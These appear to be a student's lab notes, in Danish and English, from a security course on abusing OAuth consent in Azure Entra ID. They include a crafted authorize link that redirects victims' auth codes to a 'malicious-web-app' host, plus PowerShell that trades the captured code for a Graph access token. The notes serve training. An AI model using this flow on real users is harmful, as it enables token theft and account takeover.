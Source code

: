 sad med mere OAuth
Det lykkedes mig at få scp: på cookien ved at først hente Authkoden i URL

Når en user authenticater i Azure bliver den sendt i urL'en specifikt på denne side


philip viste mig siden https://aadinternals.com/aadinternals/ som har en masse information om Entra ID og OAuth2.0

use this link https://login.microsoftonline.com/5dc7e152-c906-4d95-bd1a-bcf75eb3e939/oauth2/v2.0/authorize?client_id=675c27b6-e1ff-4a2c-924e-701186f97951&response_type=code&redirect_uri=https://malicious-web-app.azurewebsites.net/.auth/login/aad/callback&scope=User.ReadWrite&response_mode=query&prompt=consent
to get a auth prompt:
![[Dag 5 url image.png|200]]
the 2nd request has the code and the host is.
(press accept)
*if you don't see the code=, try again in a private browser*
![[gettingth eAuth Code.png]]
the Auth-Code lasts 10 minutes

to exchange the Auth-Code to an access token use this form
```bash
$authCode = "<PASTE_AUTH_CODE_HERE>"
$redirectUri = "<YOUR_REDIRECT_URI>"
$clientId = "<YOUR_CLIENT_ID>"
$clientSecret = "<YOUR_CLIENT_SECRET>"
$tenantId = "<YOUR_TENANT_ID>"

$body = @{
    client_id     = $clientId
    client_secret = $clientSecret
    code          = $authCode
    redirect_uri  = $redirectUri
    grant_type    = "authorization_code"
    scope         = "User.ReadWrite"
}

$response = Invoke-RestMethod -Uri "https://login.microsoftonline.com/$tenantId/oauth2/v2.0/token" `
    -Method Post `
    -ContentType "application/x-www-form-urlencoded" `
    -Body $body

Write-Output "Access Token: $($response.access_token)"
```
it may give an error but should also give you the Access Token (which last 1 hour)

Test the Token
```bash
$accessToken = "<Paste_Access_Token_Here>"
Invoke-RestMethod -Uri "https://graph.microsoft.com/v1.0/me" -Headers @{ Authorization = "Bearer $accessToken" }

```



The way you add more permissions to your app is here
<mark style="background: #FF5582A6;">Path: Entra ID/App registrations/"App"/API permissions </mark>
![[Dag 5.png|250]]
<mark style="background: #ADCCFFA6;">This is the Azure API that controls everything under that permission, in this case user.xyz</mark>



